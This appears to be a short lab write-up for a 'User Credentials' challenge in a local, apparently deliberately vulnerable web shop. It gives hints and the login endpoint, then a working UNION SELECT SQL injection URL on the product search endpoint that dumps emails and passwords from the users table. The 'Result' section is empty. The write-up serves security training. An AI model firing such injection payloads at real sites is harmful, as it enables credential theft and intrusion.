




# User Credentials



## Clue provided

1. Gather information on where user data is stored and how it is addressed. Then craft a corresponding UNION SELECT attack.
2. Try to find an endpoint where you can influence data being retrieved from the server.
3. Craft a UNION SELECT attack string to join data from another table into the original result.
4. You might have to tackle some query syntax issues step-by-step, basically hopping from one error to the next

## Solution

### Identifying vulnerability

From intercepting login request, we can see that the application is sending a POST request to the following endpoint:

```
127.0.0.1:3000/rest/user/login
```

with json body:

```json
{
  "email": "<email>",
  "password": "<password>"
}
```



### Exploiting the vulnerability

We can use union-based SQL injection to extract the user credentials. The database system in use is SQLite, which stores its user data in the `users` table.

```
http://127.0.0.1:3000/rest/products/search?q=%27))%20UNION%20SELECT%201,email,password,4,5,6,7,8,9%20FROM%20users--
```



### Result




